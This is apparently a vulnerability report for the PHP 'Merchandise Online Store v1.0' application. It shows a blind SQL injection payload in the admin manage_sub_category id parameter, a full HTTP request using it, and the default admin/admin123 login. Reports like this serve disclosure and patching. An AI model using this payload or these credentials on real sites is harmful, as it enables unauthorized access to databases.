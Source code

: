 # Merchandise Online Store v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/14887/merchandise-online-store-php-free-source-code.html

Vulnerability File: /vloggers_merch/admin/?page=maintenance/manage_sub_category&id=

Vulnerability location: /vloggers_merch/admin/?page=maintenance/manage_sub_category&id=,id

[+] Payload: /vloggers_merch/admin/?page=maintenance/manage_sub_category&id=1%27%20and%20length(database())%20=17--+ // Leak place ---> id

Current database name: vloggers_merch_db,length is 17

```sql
GET /vloggers_merch/admin/?page=maintenance/manage_sub_category&id=1%27%20and%20length(database())%20=17--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=n23o4bgngdq5q3js6l0a0i6r6k
Connection: close
```

When length (database ()) = 16, Content-Length: 26820
![image](https://user-images.githubusercontent.com/54017627/166900094-f5fe73bf-be84-49fd-94e7-2752947b992c.png)

![image](https://user-images.githubusercontent.com/54017627/166899999-562f0104-15a4-4741-b564-8e9146f33f1e.png)

When length (database ()) = 17, Content-Length: 26866
![image](https://user-images.githubusercontent.com/54017627/166900031-b70fa810-f9c1-4609-bc4d-2e5715378950.png)

![image](https://user-images.githubusercontent.com/54017627/166899948-6321c062-a2ce-4052-ade7-1b1163b156d4.png)
